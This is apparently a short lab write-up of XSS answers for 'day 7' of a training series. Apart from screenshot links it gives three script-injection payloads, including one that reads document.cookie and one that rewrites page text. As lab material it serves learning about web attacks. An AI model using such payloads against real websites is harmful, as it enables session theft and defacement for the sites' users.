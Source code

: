 # solution to all the questions of day 7(XSS)
![image](https://user-images.githubusercontent.com/60177793/92596715-e1db1f80-f2c3-11ea-86cb-7239d8133b63.png)
![image](https://user-images.githubusercontent.com/60177793/92597549-2b783a00-f2c5-11ea-8550-e4557e8983b3.png)
![image](https://user-images.githubusercontent.com/60177793/92597660-5b274200-f2c5-11ea-9714-83f169036657.png)
![image](https://user-images.githubusercontent.com/60177793/92597702-68443100-f2c5-11ea-8da2-61d33c8d5834.png)
######  <script>alert(window.location.hostname)</script>
![image](https://user-images.githubusercontent.com/60177793/92599136-6e3b1180-f2c7-11ea-8cbf-adefb0c77a6a.png)
The payload I’ll use is
<script>alert(document.cookie)</script>
![image](https://user-images.githubusercontent.com/60177793/92600198-d9391800-f2c8-11ea-9b88-f0a699aba1e0.png)


![image](https://user-images.githubusercontent.com/60177793/92600086-b9095900-f2c8-11ea-80ab-93a274b4a4c8.png)
<script>document.querySelector('#thm-I am a hacker').textContent = 'I am a hacker'</script>
![image](https://user-images.githubusercontent.com/60177793/92600587-6a0ff380-f2c9-11ea-9903-f612cbec576f.png)





